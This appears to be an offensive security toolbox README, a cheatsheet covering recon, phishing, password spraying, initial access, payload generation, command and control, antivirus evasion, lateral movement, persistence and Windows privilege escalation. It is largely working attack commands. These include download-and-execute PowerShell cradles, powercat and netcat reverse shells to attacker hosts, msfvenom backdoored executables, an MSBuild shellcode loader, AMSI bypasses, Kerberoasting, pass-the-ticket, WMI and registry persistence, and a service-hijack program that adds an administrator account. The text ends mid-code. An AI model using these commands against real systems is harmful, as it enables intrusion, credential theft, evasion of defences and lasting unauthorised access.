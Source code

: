 # Toolbox
Offensive Security Toolbox + Cheatsheet

#### Windows Attacker Tooling Setup Script
``` powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/cdnet01/Toolbox/refs/heads/main/setup.ps1'))
```
^ this script is useful for setting up new windows attacker machines

## Recon and Scanning

<details>
<summary> google dorking </summary>

https://www.exploit-db.com/google-hacking-database
</details>

<details>
<summary> anymailfilder.com </summary>

useful for finding company email naming convention. 
</details>

<details>
<summary> gathercontacts </summary>

burpsuite extention that scrapes names from linkedin. requires manually searching for: 

`site:linkedin.com/in "company name"`
</details>

<details>
<summary> dnsrecon </summary>

``` bash
# enumerate dns records for a range, specifying the dns server.
dnsrecon -d domain.tld -n 8.8.8.8
```
</details>

<details>
<summary> knock.py </summary>

``` bash
# brute force subdomains, specifying a dns server
knockpy -d domain.com --bruteforce --dns 8.8.8.8

# conduct "recon" against a domain and save results
knockpy -d domain.com --recon --save foldername
```
</details>

<details>
<summary> sublist3r </summary>

``` bash
# brute force subdomains
sublist3r -d domain.com
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# brute force subdomains via host header, filtering out 404 responses.
ffuf -w subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 404
```
</details>

<details>
<summary> masscan </summary>

``` bash
# scan entire /8 range on all ports. set rate to a fast but "safe" limit and output as binary (saves space)
masscan -p 0-65535 --rate 15000 10.0.0.0/8 -oB filename.bin

# convert binary output into a greppable format
masscan --open --readscan filename.bin -oG filename.gnmap

# from here, you can grep for live hosts, open ports, and more.
grep /open/ filename.gnmap | cut -d ' ' -f 2 | sort -uV > livehosts.txt
```
</details>

<details>
<summary> nmap </summary>

``` bash
# without using host discovery, SYN connect scan on range and only output open ports.
sudo nmap -Pn -sT --open 10.140.21.1-255

# full service scan on a /24 range. output in all formats (grep-able, xml, binary)
sudo nmap -sV 10.10.20.0/24 -oA filename

# view all NSE scripts
ls /usr/share/nmap/scripts/*.nse

# run smb discovery
sudo nmap -Pn -p445 --open --script=smb-os-discovery.nse 10.140.13.27

# privide a file containing rfc1918 rangesm, then DNS reverse lookup and output into grep-able file
namp -iL rfc1918.txt -sL --dns-servers 10.10.14.98 -oG
```
</details>

<details>
<summary> eyewitness </summary>

``` bash
# feed an xml list of hosts to be scanned for webpages
EyeWitness.py --web -x filename.xml

# feed a newline separated list of domains 
eyewitness --web -f domains.txt --threads 10
```
</details>

<details>
<summary> smtp enumeration </summary>

``` bash
# connect to a host running smtp
nc -nv 192.168.50.8 25

# ask the smtp server to verify an email address
VRFY root
```
</details>

<details>
<summary> snmp enumeration </summary>

``` bash
# scan for snmp (runs on UDP)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# brute force a list of ips
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# check a specific host
snmpwalk -c public -v1 -t 10 192.168.50.151
```
</details>

## Phishing

<details>
<summary> Website Cloning </summary>

We’ll use -E to adjust file extensions to match MIME types, -k to convert links to local copies, and -K to save originals with a .orig extension. With -p, we’ll grab all assets needed to view the page. The -e robots=off option ignores robots.txt. We’ll allow external host downloads with -H, but restrict them to the zoom.us domain via -Dzoom.us. Finally, -nd saves everything in a flat directory in the current working directory.

```bash
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
</details>

<details>
<summary> config.Library-ms </summary>

setup a webdav listener on the attacking machine

```bash 
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

create a file named 'config.Library-ms' with the following contents:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

create a .lnk file, entering the following into the input field and name it 'automatic_configuration'
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share to serve the the automatic_configuration.lnk and config.Library-ms files, and a Netcat listener on port 4444 to catch the reverse shell.

```bash
# download powercat
wget https://github.com/besimorhino/powercat/raw/refs/heads/master/powercat.ps1

python3 -m http.server
```

copy the automatic_configuration.lnk and config.Library-ms to WebDAV directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

To upload the library file to the SMB share, we'll use smbclient with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created test.txt file from the WebDAV share.

``` bash
cd ~/webdav

smbclient //192.168.50.195/share -c 'put config.Library-ms'
```


</details>

## Password Attacks

<details>
<summary> cewl.rb </summary>

Use CeWL to spider a target website and build a unique wordlist to use for cracking
</details>

<details>
<summary> hydra </summary>

``` bash
# trim word list with hydra's pw-inspector. min password length set to 8, at least 3 critera must be met, and set criteria to (l) lowercase, (u) uppercase, (n) numbers, (p) printable chars, (s) special chars.
pw-inspector -i breachdata.txt -o trimmed.txt -m 8 -c 3 -lunps

# password spray SMB on many hosts using username file
hydra -L users.txt -p 'p@ssw0rd' -M windows-hosts.txt smb2

# password spray a domain controller
hydra -L users.txt -p Summer2025! -m workgroup:{name} 10.140.10.2 smb2

# check valid creds against a list of hosts
hydra -m workgroup:{company} -l username -p password -M smbservers.txt smb2

# attack ssh
hydra -L users.txt -P passwords.txt ssh://102.168.1.38
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# find usernames matching on a response containing "username already exists"
ffuf -w users.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -mr "username already exists"

# brute force web login creds
ffuf -w users.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -fc 200
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate password and user list against a desired service (in this case, smb)
nxe.exe -u "C:\usernames.txt" -p "C:\passwords.txt" -d domain.com --continue-on-success --no-bruteforce 10.20.13.4
```
</details>

<details>
<summary> hashcat </summary>

Effective rulesets can be found in ```/usr/share/hashcat/rules```

``` bash
# use some rules against a password list 
hashcat -r demo2.rule --stdout demo.txt

# crack kerberos TGS-REP hash (output from GetUserSPNs.py) and append 4 digits to the passwords 
hashcat -m 13100 -a 6 hashfile.txt passwordlist.txt ?d?d?d?d
```
hash types can be found at: https://hashcat.net/wiki/doku.php?id=example_hashes

useful hash modes (-m value):

- 1000: NTLM
- 5600: NTLMv2-SSP
- 13100: Kerberos RC4 TGS Ticket (denoted by $krb5tgs$23$)

</details>

## Initial Access
Ports of interest

- 22 - SSH
- 135 - RPC
- 139, 445 - SMB
- 3389 - RDP
- 5985, 5986 - WMI/WinRM

<details>
<summary> impacket </summary>

```bash 
# connect to mssql server and specify the domain controller ip
mssqlclient.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# connect to smb server
smbclient.py domain.com/username:password@10.13.12.3

# execute code using the psexec service 
psexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using the smb service
smbexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using wmic
wmiexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# setup an smb listenter, and run a command on a target using captured hash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate rids
nxe.exe smb 10.140.13.3 -u username -p 'password' --rid-brute

# list shares
netexec smb 10.140.13.3 -u username -p 'password' --shares
```
</details>

<details>
<summary> runas </summary>

``` powershell
# (run this as administrator) launch a cmd shell that will execute all network communication with the injected credentials for authentication.
runas.exe /netonly /user:domain.com\username cmd.exe
```
</details>

<details>
<summary> evilwinrm </summary>

``` bash 
evil-winrm -i 10.13.10.3 -u "username" -p "password"
```

</details>


<details>
<summary> xfreerdp </summary>

``` bash
# rdp into a server ignoring any self signed certs
xfreerdp /u:username /p:password /v:10.230.21.12 /cert:ignore /dynamic-resolution
```
</details>

<details>
<summary> netcat </summary>

``` bash
# open listener for reverse shell on attacker machine
nc -lvp 4444

# shovel the shell from the target to the attacker
nc 192.168.1.31 4444 -e /bin/bash
```
</details>

## Payloads
common payload types: 

1. office macros
2. office auto DDE (default on excel and outlook)
3. ISO images 
4. zip files (often encrypted)
5. lnk files with rundll32

<details>
<summary> msfvenom </summary>

``` bash 
# view payload formats
msfvenom --list formats

# generate malicious installer file
msfvenom -p windows/meterpreter/reverse_http lhost=ATTACKER_IP lport=8976 -f msi -o setup.msi

# backdoor a legit exe. The binary will still work as usual but execute an additional payload silently.
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.209.28.34 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
</details>

<details>
<summary> genisoimage </summary>

``` bash
# place payload inside of an iso container
genisoimage -o installer.iso setup.msi
```
</details>

## Command & Control
<details>
<summary> metasploit </summary>

``` bash
# setup multi handler
use exploit/multi/handler

# set payload 
set PAYLOAD windows/meterpreter/reverse_http

# view config
show options

# allow listener to receive multiple connections without having to restart it
set ExitOnSession false

# meterpreter commands
sysinfo
getuid
ps
# migrate to a new process
migrate -N explorer.exe
# start keylogger
keyscan_start
keyscan_dump
# file control
upload local_filename
download remote_filename
edit remote_filename
```
</details>

<details>
<summary> sliver </summary>

``` bash
# setup an https listener
https 

# generate an exe payload to only run for a specified username
generate --os windows --name filename --limit-username user1 --http LISTENING_ADDR

# generate a dll payload (run dll payload on victim with: regsvr32 filename.dll)
generate --os windows --arch 64bit --format shared --http https://ATTACKER_IP

# view payload 
impants

# view sessions
sessions

# use a session (use first few letters of session id)
use 1b
```
</details>

## Evasion

<details>
<summary> shellter </summary>

Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software.

``` bash
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```
</details>

<details>
<summary> veil </summary>

``` bash
# use veil to produce payloads, configurable with metasploit
veil 
use evasion 
use powershell/meterpreter/rev_tcp
set lhost 192.168.1.1
set lport 443
generate
```
</details>

<details>
<summary> Powershell Memory Injection </summary>

A basic templated script that performs in-memory injection is shown in the listing below. The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. We will allocate the memory and execute a new thread in the current process (powershell.exe), rather than a remote one.

``` powershell
# run this within the x86 version of powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>

```
Generate powershell reflection shellcode 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

</details>

<details>
<summary> msbuild.exe </summary>

``` powershell
# if msbuild is enabled, it can be used to execute arbitrary shellcode. first, lets find msbuild
ls C:\Windows msbuild.exe -Recurse 2>$null | % FullName

# if found, chose either a 32 bit or 64 bit version. whatever version is chosen, shellcode needs to match. Once you have created your xml build.xml file, you can run it
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\build.xml
```
generate shellcode
``` bash
# generate an msfvenom payload in csharp. this will output a byte format compatible with c#
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=9871 -f csharp | tee /tmp/payload.txt

# add the output of msfvenom to the below build.xml file where it says "// PUT SHELLCODE HERE"

# setup your listener 
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 9871
```

build.xml (without placing code on disk)
``` xml
<Code Type="Class" Language="cs" Source="\\19.21.28.12\webdav\calc.cs">
```

build.xml withshellcode
``` xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
 
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            // PUT SHELLCODE HERE
 
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details>

<details>
<summary> AMSI Bypassing </summary>

``` powershell
# AMSI (antimalware scan interface) was addedd in powershell version 3, previous version wont have it. For example, the following command (run from cmd) wont trigger AMSI
powershell -version 2 -command " 'amsiutils' " 

# String modification will also work to bypass amsi. For example, the following powershell command wont trigger signatures
"Invoke"+"-Mimikatz"
```
</details>

<details>
<summary> Comment Stripping </summary>

``` powershell
# by removing comments, some AV/EDR may fail to signature certain things
PowerStripper.exe bad_script.ps1
```
</details>

<details>
<summary> Testing Windows Defender </summary>

``` powershell
# making modifications to a payload until it no longer triggers windows defender is another option. This tool will show the exact byte that triggered defender 
DefenderCheck.exe payload.exe
```
</details>

<details>
<summary> chameleon </summary>

``` powershell
https://github.com/klezVirus/chameleon
```
</details>


## Situational Awareness

There are several key pieces of information we should always obtain:

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes


<details>
<summary> linux </summary>

``` bash
cat /etc/passwd
sudo -l
# recursively search for a case insensitive filename from root directory
find / -type f -iname *.db
# recuresiveley search files for secrets from root directory
grep -Inri -e passw -e secret -e key / 2>/dev/null
# find SUID files
find / -perm -4000 -ls 2>/dev/null
# find writable config files
find /etc -perm 2
# find readable bash histories 
find /home -name .bash_history -perm 4 2>/dev/null
# find writable authorized hosts files
find /home -name authorized_hosts -perm 2 2>dev/null
```
</details>

<details>
<summary> windows </summary>

``` bat
rem misc commands for situational awareness
systeminfo
ipconfig /all
route print 
netstat -ano
Get-Process

rem see powershell history
Get-History

rem find the logged powershell history from PSReadline
(Get-PSReadlineOption).HistorySavePath

rem see what groups your user is a member of. Builtin grpuops of note are Backup Operators (can create backup of all files on system), Remote Desktop Users (can RDP to the machine), and Remote Management Users (can access system with WinRM)
whoami /groups

rem check for SeImpersonatePrivilege enabled for priv esc
whoami /priv

rem show DNS details
ipconfig /displaydns

rem show all user accounts (local or domain)
net user
Get-LocalUser
net1.exe user
net user /domain

rem show information about a specific user (local or domain)
net user [username]
net user [username] /domain

rem list all groups (local or domain)
net localgroup
Get-LocalGroup
net group /domain

rem show membership of a specific group (local or domain)
net localgroup "groupname"
Get-LocalGroupMember "groupname"
net group "groupname" /domain
net group "Domain Admins" /domain

rem show password policy (local or domain)
net accounts
net accounts /domain

rem add a user
net user [username] password /add

rem add user to local admins
net localgroup administrators [username] /add

rem show accounts with a bad password login count > 0
Get-ADObject -Filter 'badPwdCount -gt 0' -Server domain.com

rem check for windows credential guard
Get-ComputerInfo

rem show firewall settings
netsh firewall show state
netsh firewall show config
netsh advfirewall show allprofiles state

rem show all installed appilcations (32 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show all installed appilcations (64 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show scheduled tasks
schtasks /query /fo LIST /v

rem show patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn

rem find file recursively
dir /s *name*

rem find secrets recursiveley
dir /s *pass* == *cred* == *vnc* == *.config*

rem look for user files containing potentially sensitive information
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

rem query for SPNs
setspn.exe -T * -Q */*

rem use sysinternals adexplorer to fetch active directory information
ADExplorer.exe 

rem look for keepass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Microsoft Management Console

This native windows tool can be used in order to enumerate active directory. In order to install the software:
1. Press Start
2. Search "Apps & Features" and press enter
3. Click Manage Optional Features
4. Click Add a feature
5. Search for "RSAT"
6. Select "RSAT: Active Directory Domain Services and Lightweight Directory Tools" and click Install

You can start MMC by using the Windows Start button, searching run, and typing in MMC

(if running with runas on the attacker machine, you will need to configure the forrests. if running on a domain joined machine, some of this can be skipped.)

In MMC, we can now attach the AD RSAT Snap-In:

1. Click File -> Add/Remove Snap-in
2. Select and Add all three Active Directory Snap-ins
3. Click through any errors and warnings
4. Right-click on Active Directory Domains and Trusts and select Change Forest
5. Enter domain.com as the Root domain and Click OK
6. Right-click on Active Directory Sites and Services and select Change Forest
7. Enter domain.com as the Root domain and Click OK
8. Right-click on Active Directory Users and Computers and select Change Domain
9. Enter domain.com as the Domain and Click OK
10. Right-click on Active Directory Users and Computers in the left-hand pane
11. Click on View -> Advanced Features

If we had the relevant permissions, we could also use MMC to directly make changes to AD, such as changing the user's password or adding an account to a specific group.
</details>

<details>
<summary> impacket </summary>

``` bash
# extract list of all users
GetADUsers.py domain.com/username:password -dc-ip 10.140.10.2 -all

# enumerate user SPNs on a remote machine
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59
```
</details>

<details>
<summary> seatbelt.exe </summary>

``` powershell 
# get info on AV
seatbelt.exe AntiVirus

# get info on installations
seatbelt.exe InstalledProducts

# get system info
seatbelt.exe -q -group=system

# show commands that can be run against remote computers
seatbelt.exe -q | findstr +

# launch a module against a remote computer
seatbelt.exe UAC 'computername=10.140.12.13' -username=company\user -password=password
```
</details>

<details>
<summary> bloodhound </summary>

``` bash
# using python tooling, remotely retreive AD information for loading into bloodhound
bloodhound-python -d domain.com -u username -p password -c ALL -ns 10.10.192.2

# using c# tooling (ps1 tooling also available), retreive AD infomation for loading into bloodhound and do not touch domian controllers (better for evasion)
Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs

# start bloodhound application
./BloodHound
```
</details>

## Lateral Movement
<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves (with SMB) as the password with tools like psexec 
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```
</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it
# on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```
</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privilege Escalation

<details>
<summary><b>Linux</b></summary>

1. [GTFOBins](https://gtfobins.github.io/)  
2. [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
3. Cheatsheets: [here is a good one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

</details>

<details>
<summary><b>Windows</b></summary>

<div style="margin-left:20px">

<details>
<summary>LOLBAS</summary>
<a href="https://lolbas-project.github.io/#">https://lolbas-project.github.io/#</a>
</details>

<details>
<summary>UAC Bypass</summary>
<a href="https://github.com/hfiref0x/UACME">https://github.com/hfiref0x/UACME</a>
</details>

<details>
<summary> Automated Checks </summary>

1. winpeas (https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
2. powerup.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. seatbelt (https://github.com/GhostPack/Seatbelt)

</details>

<details>
<summary>scheduled tasks</summary>

this is simmilar to service binary hijacking. If you have the proper permissions on an executable for a scheduled task, you can hijack it and its permissions. 

``` bat
rem query scheduled tasks, look for non-system tasks
schtasks /query /fo LIST /v
```
</details>

<details>
<summary> Unquoted Service Paths </summary>

an unquoted service path search might look like this 
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

rem List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
if you can find a service path which you have the proper permissions to write to, you can add a malicious binary with the proper name in order to hijack service execution. 

</details>

<details>
<summary> Service Binary Hijacking </summary>
overwrite a service executable with our own

``` bat
rem List services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

rem check permissioms of a service binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
next, create a new binary on the attacker machine as `service.c`. You can also use msfvenom or other payload providers. 
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
now, we can cross compile it and put it on the victim machine and restart the service. 

``` bash
x86_64-w64-mingw32-gcc service.c -o service.exe
```
</details>

<details>
<summary> DLL search order hijacking </summary>

The following listing shows the standard search order taken from Microsoft Documentation:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

If you can identify a program that is missing a dll, or you find that you can insert one higher up in the order, you could force the application to attach to your malicious dll. 

Procmon will be useful to identify program missing dll's.

On your attacker machine, cross compile a malicious dll as `mal.cpp`

``` cpp
#include <stdlib.h>
#include <windows.h>

